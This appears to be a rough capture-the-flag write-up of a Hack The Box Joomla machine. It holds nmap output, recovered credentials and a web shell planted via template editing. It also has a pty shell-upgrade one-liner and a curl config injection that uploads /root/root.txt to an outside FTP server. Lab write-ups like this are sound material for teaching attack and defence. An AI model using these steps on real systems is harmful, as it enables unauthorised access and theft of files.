 10.10.10.150 

Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-26 11:57 UTC
Nmap scan report for 10.10.10.150
Host is up (0.047s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.03 seconds

# Username recovery tells me about email address not being found?

# JOOMLA VERSION
[+] Joomla version: 3.8.8

# MSF Joomla scannar found

>>> http://10.10.10.150/htaccess.txt
>>> http://10.10.10.150/administrator/index.php

# FILES 

Found secret.txt with something that might be a hash?

Q3VybGluZzIwMTgh --> Curling2018!

When logging in with Floris

You get super user

And can log into to /administator

By going to templates changing the index.php to a shell then clicking "Preview template" you can run php code

Found so tar archive that ended up giving:

>>> floris
>>> 5d<wdCbdZu)|hChXll 

As a password


# Elivating a shell 
python -c 'import pty; pty.spawn("/bin/bash")'  


# By comparing the processes I can see this selection
> 17896 ?        00:00:00 cron
> 17900 ?        00:00:00 sh
> 17901 ?        00:00:00 sleep

# Need to find the local cron job???

# By running "ps -ef" I can see the command run 

>>> /bin/sh -c sleep 1;
>>> cat /root/default.txt > /home/floris/admin_area/input
>>> /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin_area/report


# -K loads a config file called input. We can place in this config file some nice suprises

# Command for the config
# This command uploaded the root.txt file to an external FTP server
echo "url = \"ftp://10.10.14.9:2121\"" > ~/admin-area/input ; echo "upload-file = \"/root/root.txt"" >> ~/admin-area/input


# Temp ftp server
pip install --user pyftpdlib
python -m pyftpdlib --directory=FTP --port=2121 --write

